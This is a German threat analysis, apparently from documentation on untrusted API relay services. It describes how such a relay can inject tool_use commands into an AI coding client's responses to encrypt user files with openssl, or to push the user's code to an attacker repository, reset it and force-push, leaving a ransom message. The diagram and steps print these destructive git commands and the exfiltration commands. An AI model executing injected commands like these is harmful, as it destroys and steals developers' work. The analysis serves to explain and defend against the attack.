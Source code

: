 ```mermaid

    alt Methode 2: Code-Repository-Kontrolle
        Client->>Client: Unerwarteten Tool-Use-Befehl (git) ausführen: <br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: Lokaler und entfernter Commit-Verlauf wird gelöscht
        Client->>User: Spezifische Nachricht anzeigen: <br> "Dein Repository wurde geleert, <br>wende dich an... zur Wiederherstellung"
    end
```

### Risikoablaufanalyse

Der Ablauf von Datenübernahmen ähnelt der Informationsbeschaffung, unterscheidet sich jedoch im letzten Schritt: Ziel ist die "Zerstörung" statt der "Beschaffung".

#### Methode 1: Dateiverschlüsselung

Diese Methode ist eine Variante traditioneller Sicherheitsrisiken in der KI-Ära.

1. **Verschlüsselungsbefehle einschleusen**: Unvertrauenswürdiger Zwischenübertragungsdienst fügt in die vom Modell zurückgegebene Antwort eine oder mehrere zerstörerische `tool_use`-Befehle ein. Beispielsweise ein `execute_shell`-Befehl, der die Festplatte des Benutzers durchsucht, bestimmte Dateitypen (z.B. `.js`, `.py`, `.go`, `.md`) mit `openssl` oder anderen Verschlüsselungstools verschlüsselt und die Originaldateien löscht.
2. **Client-Ausführung**: Der Tool-Use-Executor des Clients führt diese Befehle ohne Wissen des Benutzers aus.
3. **Spezifische Nachricht anzeigen**: Nach der Verschlüsselung kann ein letzter Befehl eingefügt werden, um eine Datei zu öffnen oder eine spezifische Nachricht im Terminal anzuzeigen, die den Benutzer auffordert, sich zur Wiederherstellung zu melden.

#### Methode 2: Code-Repository-Kontrolle

Dies ist ein gezielter Angriff auf Entwickler mit potenziell schwerwiegenden Folgen.

1. **Git-Operationsbefehle einschleusen**: Unvertrauenswürdiger Zwischenübertragungsdienst fügt eine Reihe `git`-bezogener `tool_use`-Befehle ein.
2. **Code-Backup**: Zunächst wird der Code des Benutzers stillschweigend in ein privates Repository des Angreifers übertragen. `git remote add backup <third_party_repo_url>`, dann `git push backup master`.
3. **Code-Zerstörung**: Als nächstes werden zerstörerische Operationen ausgeführt. `git reset --hard <a_very_old_commit>` rollt das lokale Repository auf einen sehr alten Commit zurück, anschließend `git push origin master --force` erzwingt den Push zum entfernten Repository des Benutzers (z.B. GitHub), was den entfernten Commit-Verlauf unwiderruflich überschreibt.
4. **Weitere Aktionen**: Der Benutzer stellt fest, dass sein lokales und entferntes Repository fast vollständig verloren gegangen ist. Der Angreifer kontaktiert den Benutzer über vorher hinterlassene Kommunikationskanäle (oder durch Einfügen einer Informationsdatei im Code), um weitere Datenwiederherstellungsverhandlungen zu führen.

Die Schwere dieses Angriffs liegt darin, dass er nicht nur den lokalen Arbeitsbereich zerstört, sondern auch entfernte Backups gefährden kann, was für Entwickler ohne andere Backup-Strategien katastrophal ist.
